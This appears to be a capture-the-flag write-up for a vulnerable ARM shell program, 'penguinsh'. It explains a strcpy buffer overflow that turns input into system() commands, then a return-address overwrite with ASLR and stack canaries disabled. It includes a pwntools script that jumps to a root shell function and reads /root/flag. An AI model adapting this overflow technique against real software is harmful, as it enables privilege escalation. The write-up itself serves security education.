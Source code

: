 The line `strcpy(in.input, in.line);` leads to an unsafe memory copy: it lets the user copy arbitrary data inside the `input_data` struct and potentially overwrite `is_bash`, leading to the executing of the input data with a real shell (`system(in.input);`).

In fact, if we fill the input with more than `64` A's, the shell will execute the command and complain:
```sh
sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
```

To exploit this, we'll just put the command we want to execute as `solve4` at the beginning of the line, commenting the rest of the junk data used to overflow the buffer.

```sh
PenguinSH> cat /home/solve4/flag #AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    LDBARI{overfl0wing_su1d_p3nguins}
```

# Stack root jumping
The objective is reading `/root/flag`, by fining other vluns in `penguinsh`.

To gain root privilages, we have to use the function that sets the uid to 0 (root) and execute the shell.

The problem is that looking at that function, we see it is never called in the program...

Notes:
- Looking at the title on the website, you see the "norandmaps" kernel paramether inserted into qemu, in fact `cat /proc/sys/kernel/randomize_va_space` returns `0`: the addresses are not randomized
- In the makefile used to compile the source code, you see that stack canaries are disabled
- The is_bash flag is invalid `if == 0` or also `0xff`` (it's important because readline filters a lot of character in the input)

Now we are able to write the exploit

1. From you favourite reverse engeneering tool you can get the `bash` function address: `0x8093754`
2. Add to this value using the static base address on the machine (in this case `0x5555555000`)
3. Build your address in little endian (according to arm arch)

You can build this using pwntools on your machine adding the initial padding, the `0xff` byte to skip the `is_bash` check and finally the address.

Additionally you have to insert `\n` and `\4` (CTRL+D) to trigger the return of the main function and jump to the bash function

After this you can insert the command to execute as root, so we can read the flag!

```python
from pwn import *

bin = ELF("./penguinsh")
context.binary = bin

padding = b"A"*64
is_bash_skip = b"\xff"
additional_padding = b"A"*15
address = p64(0x5555555000+0x8093754)
end_penguin = b"\n\x04"
command = b"cat /root/flag"

payload = padding + is_bash_skip + additional_padding + address + end_penguin + command

print(f"execute this on the VM: printf {payload.__repr__()[1:]} | penguinsh")
```
